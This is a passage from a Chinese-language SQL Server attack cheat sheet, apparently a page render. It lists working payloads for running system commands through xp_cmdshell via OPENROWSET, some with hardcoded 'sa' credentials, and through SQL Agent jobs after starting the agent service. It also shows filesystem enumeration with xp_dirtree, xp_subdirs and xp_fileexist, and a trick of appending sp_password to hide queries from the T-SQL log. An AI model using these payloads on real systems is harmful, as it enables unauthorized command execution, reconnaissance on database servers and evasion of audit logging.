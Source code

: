 | for xml path | 适用于 SQL Server 2005 及以上版本,虽然是一次性获取所有内容,但是取出内容数量取决于表定义的长度. |

```
SELECT * FROM OPENROWSET('SQLOLEDB', 'trusted_connection=yes', 'SET FMTONLY OFF execute master..xp_cmdshell "ver"') for xml path  
SELECT * FROM OPENROWSET('SQLOLEDB', '192.168.1.117';'sa';'123456', 'SET FMTONLY OFF execute master..xp_cmdshell "ver"')for xml path 
```

附:

回显内容超过表定义长度将会出现内容为 "将截断字符串或二进制数据。"的错误

### 5.SQL 代理执行系统命令(SQLSERVERAGENT):

```
use msdb exec sp_delete_job null,'x';exec sp_add_job 'x';exec sp_add_jobstep Null,'x',Null,'1','CMDEXEC','cmd /c  net start >C:\test.txt';exec sp_add_jobserver Null,'x',@@servername exec sp_start_job 'x'; 
```

（SQLSERVERAGENT 服务默认是禁用的,先利用 xp_servicecontrol 激活 SQLSERVERAGENT，然后建立一个 SQL 计划任务马上运行这个 SQL 任务实现命令执行。）

激活 SQLSERVERAGENT 的语句:

```
exec master.dbo.xp_servicecontrol 'start','SQLSERVERAGENT' 
```

### 其他获取系统信息的函数

**1.历遍目录**

```
exec master.dbo.xp_dirtree 'c:\' 
```

**2.获取子目录**

```
exec master.dbo.xp_subdirs 'c:\' 
```

**3.列举可用的系统分区**

```
exec master.dbo.xp_availablemedia 
```

**4.判断目录或文件是否存在**

```
exec master..xp_fileexist 'c:\boot.ini' 
```

### SP_PASSWORD （隐藏查询）

在查询结束后追加 sp_password,T-SQL 日志作为一项安全措施隐藏它。
